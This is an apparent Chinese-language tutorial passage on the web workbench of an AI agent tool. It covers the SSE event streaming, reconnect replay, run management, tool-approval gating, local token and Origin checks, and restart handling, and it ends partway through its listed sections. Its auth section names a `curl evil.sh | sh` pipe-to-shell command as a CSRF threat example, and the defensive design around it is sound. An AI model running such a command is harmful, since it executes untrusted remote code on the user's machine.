# 教程 02：Web 工作台 —— 前后端通信、运行管理与审批

> 对应阶段 2。新增后端 `api.py`、`runs.py`、`server.py`、`policy.py`，前端 `web/`（React + TypeScript）。
> 后端核心从 1,534 行增长到 2,222 行，前端 837 行，测试 951 行（60 个用例）。
> 上一篇：[01-核心闭环](01-核心闭环.md)。设计依据：[架构方案](../design/2026-10-23-architecture-plan.md)（D1、D3、D6、D12、D16）。

## 目录

1. [这一步做了什么](#1-这一步做了什么)
2. [全局结构](#2-全局结构)
3. [为什么是 HTTP 命令 + SSE 事件](#3-为什么是-http-命令--sse-事件)
4. [事件模型：持久事件与临时事件](#4-事件模型持久事件与临时事件)
5. [断线重连：快照 + 按 seq 补发](#5-断线重连快照--按-seq-补发)
6. [前端怎么把事件变成界面](#6-前端怎么把事件变成界面)
7. [RunManager：每个会话一个运行](#7-runmanager每个会话一个运行)
8. [插话与排队](#8-插话与排队)
9. [审批：在副作用发生之前拦住](#9-审批在副作用发生之前拦住)
10. [本机鉴权：回环地址不是鉴权](#10-本机鉴权回环地址不是鉴权)
11. [服务重启与自动续跑](#11-服务重启与自动续跑)
12. [分支：编辑重发与切换](#12-分支编辑重发与切换)
13. [为什么所有路由都是 async](#13-为什么所有路由都是-async)
14. [数据库迁移](#14-数据库迁移)
15. [实测中踩到的坑](#15-实测中踩到的坑)
16. [测试](#16-测试)
17. [使用方式](#17-使用方式)
18. [已知限制和下一步](#18-已知限制和下一步)

---

## 1. 这一步做了什么

| 能力 | 位置 |
|---|---|
| HTTP 接口 + SSE 事件流，断线按 seq 补发 | `api.py` |
| 每会话一个运行任务、插话/排队、审批等待、事件分发 | `runs.py` |
| 本机令牌、静态文件、uvicorn 启动 | `server.py`，`nwb serve` |
| 阶段 2 的权限模式（确认 / 完全信任） | `policy.py` |
| 日志变更通知（listener）、分支最新叶子 | `log.py` |
| 循环支持插话（steer）和权限闸门（gate） | `loop.py` |
| 会话设置、审批表、数据库迁移 | `index.py` |
| React 工作台：会话列表、流式消息、工具卡片、审批卡片、分支切换器、会话树 | `web/src/` |

界面截图中能看到的功能：

```text
┌──────────────┬─────────────────────────────────────────────┬──────────────┐
│ nano-workbuddy│ hello web   [模型▾] [写入和命令需确认▾] [会话树] ● ↑2000(缓存1800) ↓100 │
│              ├─────────────────────────────────────────────┤ 会话树        │
│ proj3      ＋ │                        ┌────────────────┐   │ 你 hello web  │
│ ▸ hello web  │                        │ hello web      │   │ AI → bash    │
│              │                        │  ‹1/2› 编辑 分叉│   │ ⑂你 hello…two │
│ ＋ 添加项目    │                        └────────────────┘   │ AI Done…      │
│              │ ▸ 思考过程                                    │              │
│              │ ● bash  echo 'hello web' > out.txt   完成    │              │
│              │ ┌ 需要你确认：bash ─────────────────────────┐ │              │
│              │ │ sleep 30                                 │ │              │
│              │ │      [允许] [本会话总是允许 bash] [拒绝…]   │ │              │
│              │ └──────────────────────────────────────────┘ │              │
│              ├─────────────────────────────────────────────┤              │
│              │ 运行中：回车插话，或点“排队”   [排队][停止][插话] │              │
└──────────────┴─────────────────────────────────────────────┴──────────────┘
```

---

## 2. 全局结构



两条原则延续自阶段 1：

1. **循环不知道 Web 的存在。** 阶段 2 对 `loop.py` 只加了两个可选参数：`inbox`（插话）和 `gate`（审批闸门）。CLI 不传它们，行为与阶段 1 完全一样。
2. **事件只有两个来源。** 日志追加（持久事件）由 `SessionLog.listeners` 发出；运行中的临时状态（文字增量、命令输出）由循环的 `emit` 发出。阶段 1 里循环自己也会发 `tool.result` 这类事件，现在删掉了，因为同一件事不该有两个出处。

---

## 3. 为什么是 HTTP 命令 + SSE 事件

D3 在 HTTP+SSE、WebSocket、JSON-RPC 之间选了第一种。原因是“命令”和“事件”的性质不同：

| | 命令（发消息、停止、审批、切分支） | 事件（文字增量、工具进度、审批请求） |
|---|---|---|
| 方向 | 客户端 → 服务端 | 服务端 → 客户端 |
| 要求 | 有明确的成功/失败，可以安全重试 | 按顺序、实时，可以断线续传 |
| 合适的载体 | 普通 HTTP POST，有状态码 | SSE 单向流 |



WebSocket 也能做，但要自己实现心跳、重连、消息补发，命令还失去了 HTTP 的状态码和幂等语义。SSE 是浏览器原生的 `EventSource`，FastAPI 0.161 内置 `EventSourceResponse`：路由函数里 `yield` 一个事件就是一条 SSE 消息，每 15 秒自动发一次 `: ping` 注释保活。

接口一览：

| 方法 | 路径 | 作用 |
|---|---|---|
| GET | `/api/login?token=` | 用令牌换 HttpOnly cookie，重定向到首页 |
| GET | `/api/info` | 可用模型、权限模式 |
| GET / POST | `/api/projects` | 列出（含会话）/ 添加项目目录 |
| POST | `/api/projects/{pid}/sessions` | 新建会话 |
| GET | `/api/sessions/{sid}` | **快照**：会话设置、全部条目、seq、当前叶子、运行中状态 |
| PATCH | `/api/sessions/{sid}` | 改模型 / 权限模式（下一次运行生效） |
| GET | `/api/sessions/{sid}/events?after=N` | **SSE**：补发 seq > N 的条目，再推实时事件 |
| POST | `/api/sessions/{sid}/messages` | 发消息：`request_id`、`parent_id`（编辑重发）、`delivery`（auto/steer/queue） |
| POST | `/api/sessions/{sid}/checkout` | 切换当前位置；`descend=true` 落到该分支最新处 |
| POST | `/api/sessions/{sid}/fork` | 把到某条目的路径复制成新会话 |
| POST | `/api/sessions/{sid}/cancel` | 停止当前运行 |
| POST | `/api/approvals/{aid}` | 审批：`once` / `always` / `reject` + 意见 |

---

## 4. 事件模型：持久事件与临时事件



**持久事件**就是 JSONL 里的一行，`seq` 是它的行号。客户端只要知道自己看到了哪个 seq，断线后就能精确补齐。

**临时事件**不写日志（每个 token 都写盘、都 fsync 太浪费），所以无法补发。那断线期间漏掉的文字增量怎么办？答案是**快照**：`RunManager` 为每个运行中的会话维护一个 `Live` 对象，记着“到目前为止”的值：

```python
@dataclass
class Live:
    inbox: Inbox                    # 待处理的插话 / 排队消息
    run_id: str | None
    text: str = ""                  # 本轮模型已经输出的文字
    thinking: str = ""              # 本轮的思考过程
    outputs: dict[str, str]         # 每个运行中工具的输出（最多保留 20,000 字符）
    approvals: dict[str, ...]       # 等待用户确认的调用
```

一条 assistant 条目落盘后，`text` 和 `thinking` 清空，因为这些内容已经成为持久数据。一个工具有了结果，它的 `outputs` 也随之删除。所以“快照 + 补发”总能拼出完整的当前画面。

---

## 5. 断线重连：快照 + 按 seq 补发

### 5.1 客户端流程



前端的做法很朴素：**任何断线都重新拉一次快照，再从快照的 seq 订阅。** 对本机应用来说，快照只有几十 KB，换来的是不需要任何“合并”逻辑，状态永远一致。

### 5.2 服务端怎么做到“不漏、不重”

```python
async def events(sid, request, after=-1):
    log = session_log(sid)
    last = max(after, int(request.headers.get("last-event-id") or -1))
    q = runs.hub(log).subscribe()                     # ① 先订阅
    backlog = sorted(e for e in log.entries.values() if e.seq > last)   # ② 再取积压
    leaf = log.leaf_id
    try:
        for e in backlog: yield entry 事件, id=seq      # ③ 发积压
        yield leaf 事件
        while True: yield await q.get()               # ④ 发实时
    finally:
        runs.hub(log).unsubscribe(q)
```

关键在 ① 和 ② 之间**没有 `await`**。asyncio 是单线程协作式调度，没有 `await` 的代码段不会被打断，所以在这一段里不可能有新条目插进来：



如果先读积压、再订阅，中间又有一次 `await`，那么在这个空隙里追加的条目就会两头都收不到。

`Last-Event-ID`：每条持久事件的 SSE `id` 设为它的 seq。浏览器 `EventSource` 原生重连时会自动带上这个头，服务端取 `after` 与它中较大的一个。我们的前端虽然自己管重连，这个机制仍保留着，给其他客户端用。

---

## 6. 前端怎么把事件变成界面

`web/src/session.ts` 里只有一个 reducer，所有事件都折叠进同一个状态：



渲染时不存“消息列表”，而是现算：

- `pathTo(entries, leaf)`：从当前叶子沿 `parent_id` 走回根，得到当前分支（和后端 `SessionLog.path()` 是同一个算法）；
- `childrenOf(entries)`：每个节点的子节点，用于分支切换器（‹ 1/2 ›）和会话树；
- 工具卡片的状态由路径上的条目推出：有 `tool_result` → 完成 / 出错；在 `live.approvals` 里 → 等待确认；有 `tool_started` → 运行中。

客户端状态只是服务端日志的投影，所以刷新页面、换一个浏览器打开，看到的都完全一样。

---

## 7. RunManager：每个会话一个运行



`RunManager.send()` 的逻辑：

```python
if 会话有运行中的任务:
    if 是编辑重发（parent_id）: 409，运行中不能改历史
    if request_id 见过: 返回 "duplicate"
    放进 inbox.steer 或 inbox.queue，推送 inbox 事件
else:
    asyncio.create_task(ws.submit(...))          # 开新运行
```

**同一会话同时只能有一个运行**，这是硬规则（设计文档第 4.4 节）。两个运行同时追加日志，会让 `leaf_id` 互相覆盖，树就乱了。不同会话可以并行。

---

## 8. 插话与排队

运行中用户又发了一条消息，有两种语义：

| | 插话 steer（回车 / “插话”按钮） | 排队 queue（“排队”按钮） |
|---|---|---|
| 含义 | “顺便也考虑一下这个” | “做完这个再做那个” |
| 何时生效 | 当前运行的下一次模型调用之前 | 当前运行结束后，作为新的运行 |
| 属于哪个 run | 当前 run | 新 run |

### 8.1 插话在循环里的位置



两个检查点：

1. **调用模型之前**：工具批次跑完，正要把结果交给模型时，把插话一起带上。模型会同时看到工具结果和你的补充。
2. **模型给出最终回答之后**：如果插话恰好在最后一轮生成期间到达，不能丢，要接着再跑一轮。

插话不会打断正在执行的工具，因为工具批次是一个原子步骤（第 01 篇 8.3 节）。

### 8.2 结束时的竞态

`drive` 已经返回、任务还没完全退出的那一瞬间，`send()` 仍会认为“有运行中的任务”，把消息塞进收件箱，而循环已经不会再读它了。`RunManager._run` 在收尾时检查：

```python
leftovers = inbox.steer + inbox.queue
if leftovers and status in ("ok", "limit"):   # 正常结束：第一条开新运行，其余排队
    self.send(log, leftovers[0]); 新收件箱.queue += leftovers[1:]
elif leftovers:                                 # 被停止或出错：把文字还给输入框
    publish({"type": "inbox", "dropped": leftovers})
```

停止运行时，没送达的插话会通过 `dropped` 回到输入框里，不会悄悄丢失（实测截图中，“steer note”在点击停止后回到了输入框）。

---

## 9. 审批：在副作用发生之前拦住

### 9.1 闸门的位置



闸门放在 `tool_started` **之前**，这一点和第 01 篇的崩溃恢复配合得很好：

- 等待审批时什么都还没发生，日志里也没有 `tool_started`；
- 如果此时服务崩溃，重启续跑时这个调用被视为“还没开始”，会重新请求审批，而不是走 recover 判断“做没做完”。

### 9.2 一次审批的完整往返



`await future` 只暂停这一个运行的协程，事件循环继续服务其他请求，包括这个 POST 本身。这正是 asyncio 适合 Agent 服务的原因：大量时间都在等（等模型、等命令、等人）。

三种答复：

| 答复 | 效果 |
|---|---|
| 允许（once） | 只放行这一次 |
| 本会话总是允许（always） | 工具名加入会话设置 `allow`，之后不再询问 |
| 拒绝（reject）+ 意见 | 返回错误结果，意见原样交给模型。模型会按你的意见换做法，比单纯“拒绝”有用得多（OpenCode 的 `CorrectedError` 也是这个思路） |

如果用户在等待审批时点了停止，`await future` 处抛出 `CancelledError`，审批记录标为 `expired`，卡片随 `approval.resolved` 事件消失。

### 9.3 阶段 2 的权限模式

```python
def decide(settings, tool):
    if settings["mode"] == "trust" or tool.effect == "read" or tool.name in settings["allow"]:
        return "allow"
    return "ask"
```

只有两种模式：“写入和命令需确认”（新会话默认）和“完全信任”（界面上标红）。这是过渡方案。阶段 3 会换成设计文档 D12 的规则表（`action + 资源通配 → allow/ask/deny`）加沙箱档位，`gate` 这个接口不变。

CLI 不传 `gate`，所以 CLI 仍然是阶段 1 的“完全信任”行为。

---

## 10. 本机鉴权：回环地址不是鉴权

服务只监听 `127.0.0.1`，但这不够：**你浏览器里打开的任何网页，都能向 `http://127.0.0.1:8765` 发请求。** 恶意网页可以 POST 一条“运行 `curl evil.sh | sh`”的消息。所以要做两层防护（D16）：



1. **令牌**：首次 `nwb serve` 生成一个 32 字节的随机令牌，存在 `~/.nwb/token`，权限 0600。终端打印 `http://127.0.0.1:8765/api/login?token=…`，打开后换成 cookie。
   - `HttpOnly`：页面脚本读不到这个 cookie；
   - `SameSite=Strict`：其他网站发起的请求不会带上它，这是防跨站请求伪造（CSRF）的主力；
   - `compare_digest`：比较耗时与内容无关，防计时攻击。
2. **Origin 检查**：浏览器发起的跨站写请求一定带 `Origin` 头。只要它和 `Host` 不一致就拒绝，作为第二道防线。

令牌持久保存，书签可以一直用。如果怀疑泄露，删掉 `~/.nwb/token` 再重启即可换新。

---

## 11. 服务重启与自动续跑

### 11.1 两种“意外结束”

| | 进程被强杀（kill -9、断电） | 正常关闭（Ctrl-C） |
|---|---|---|
| runs 表状态 | 仍为 `running` | 标为 `interrupted` |
| 运行中的工具 | 有 `tool_started` 没结果 → 下次走 recover | 被取消，补“Interrupted by a server restart”结果 |
| 下次启动 | `resume_all()` 续跑 | `resume_all()` 续跑 |

`interrupted` 与 `cancelled` 的区别在于：用户点“停止”是不想继续了，不该自动续跑；服务重启则不是用户的意愿，应该接着做。两者都通过 `CancelledError` 传播，靠取消消息区分：

```python
task.cancel("shutdown")                       # RunManager.shutdown()
...
except asyncio.CancelledError as e:
    status = "interrupted" if "shutdown" in e.args else "cancelled"
```

### 11.2 时间线



这里有一个实测踩到的坑，见第 15 节第 2 条。

---

## 12. 分支：编辑重发与切换

第 01 篇介绍了会话树的数据结构，这一篇把它做进了界面：



`latest_leaf` 为什么取“子树里 seq 最大的条目”？日志只追加，seq 越大越新；你在一个分支上最后做的事，就是这个分支子树里最后写入的条目。所以切回去时，你看到的就是离开时的样子。

运行中禁止切换和编辑（返回 409）：运行正在往当前叶子后面追加条目，这时移动叶子会把新条目挂到错误的位置。

---

## 13. 为什么所有路由都是 async

这是实测中踩到的第一个坑。FastAPI 的规则是：

- `async def` 路由在**事件循环线程**里执行；
- 普通 `def` 路由被放进**线程池**执行（免得同步代码阻塞事件循环）。

最初的写法里有些路由是普通 `def`，一跑就报错：

```text
sqlite3.ProgrammingError: SQLite objects created in a thread can only be used in that same thread.
```

而 SQLite 只是表象。更严重的问题是：`RunManager.send()` 调用的 `asyncio.create_task()` 只能在事件循环线程里调用；日志对象、Hub 的队列也都没有加锁，因为设计上它们只被一个线程访问。

